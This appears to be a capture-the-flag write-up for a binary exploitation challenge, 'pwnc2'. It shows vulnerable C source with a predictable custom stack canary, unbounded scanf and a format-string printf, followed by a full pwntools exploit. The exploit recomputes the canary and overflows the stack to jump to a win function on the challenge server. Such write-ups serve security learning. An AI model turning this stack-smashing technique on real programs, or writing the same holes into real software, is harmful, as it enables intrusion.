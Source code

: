 ```yaml
---
description: Binary Exploitation
---
```


# pwnc2

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

{% file src="../../.gitbook/assets/pwn (1)" %}

{% file src="../../.gitbook/assets/pwn (1).c" %}

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

This challenge uses a custom canary with a predictable RNG seed, as shown below:

```c
void main(){

	setbuf(stdout,0);

	mastercanary=random();

	pwnme();

}

void pwnme(){

	int canary=mastercanary;
	char name[32];
	char surname[32];

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home ");
	printf(name);
	printf("\n");

	printf("Insert your surname: ");

	scanf("%s",surname);

	srand(mastercanary);

	if(canary != rand()){

		exit(0);

	}

}
```

The master canary gets one random call, and then the seed is set up as the master canary, and one more random call is used for the final canary. Using the same variable overwrite from pwnc1 I was able to make a script to automatically calculate the canary and overwrite the variable with the correct canary, then be able to return to the win function.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *
from ctypes import CDLL

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42012)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *pwnme+176
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
mastercanary = libc.random()
log.info(f'Master canary: {mastercanary}')
libc.srand(mastercanary)
canary = libc.rand()
log.info(f'Canary: {canary}')
log.info(f'Canary in hex: {hex(canary)}')

log.info(io.clean())
io.sendline(b'winter')
log.info(io.clean())
payload = flat(
    76 * b'A',
    canary,
    4 * b'B',
    0x000000000040114f, # ret
    0x00000000004011d6, # win
)

io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
